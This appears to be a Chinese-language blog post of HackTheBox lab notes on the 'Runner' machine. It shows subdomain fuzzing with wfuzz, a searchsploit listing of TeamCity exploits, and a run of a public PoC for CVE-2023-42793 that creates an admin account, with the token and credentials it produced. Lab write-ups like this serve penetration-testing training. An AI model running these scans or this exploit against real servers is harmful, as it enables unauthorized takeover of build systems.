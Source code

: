 ```yaml
---
title: HackTheBox 笔记 - 2
date: 2024-06-04 13:52:00
tags: [Web, 渗透]
categories: 渗透
---
```


不得不找饭吃了。
Two Million / Mailing / BoardLight / Usage



## Runner

扫端口，有 22，80，8000，访问 80 发现是个静态网页，dirsearch 也没扫出东西，再扫 8000，只有个 `/health` 和 `/version` 路由，也没什么用。
再扫子域名，也没扫出来东西，一看 wp 原来人家用的超大字典，晕

```bash
wfuzwfuzz -c -w  /usr/share/seclists/Discovery/DNS/shubs-subdomains.txt -u "http://runner.htb" -H "Host:FUZZ.runner.htb" --hw 10
```

于是就扫出来 `teamcity.runner.htb`，访问，是个 TeamCity。搜一下 CVE：

```bash
$ searchsploit teamcity
------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                   |  Path
------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
JetBrains TeamCity 2018.2.4 - Remote Code Execution                                                                                              | java/remote/47891.txt
JetBrains TeamCity 2023.05.3 - Remote Code Execution (RCE)                                                                                       | java/remote/51884.py
TeamCity < 9.0.2 - Disabled Registration Bypass                                                                                                  | multiple/remote/46514.js
TeamCity Agent - XML-RPC Command Execution (Metasploit)                                                                                          | multiple/remote/45917.rb
TeamCity Agent XML-RPC 10.0 - Remote Code Execution                                                                                              | php/webapps/48201.py
------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

网页写着 `Version 2023.05.3 (build 129390)`，这不正好是 CVE-2023-42793，直接 `searchsploit -p java/remote/51884.py` 找到 PoC 的位置，然后复制过来跑

```bash
$ python 51884.py -u http://teamcity.runner.htb

=====================================================
*       CVE-2023-42793                              *
*  TeamCity Admin Account Creation                  *
*                                                   *
*  Author: ByteHunter                               *
=====================================================

Token: eyJ0eXAiOiAiVENWMiJ9.SXpoSWFONE1EaGJ3SmowbGxLMmNfSmlaZkZV.NzU0ZDU4NzYtNzU3My00ZTgwLWFmNWMtMGIyNjliZjY0ZDkw
Successfully exploited!
URL: http://teamcity.runner.htb
Username: city_adminOpx8
Password: Main_password!!**
```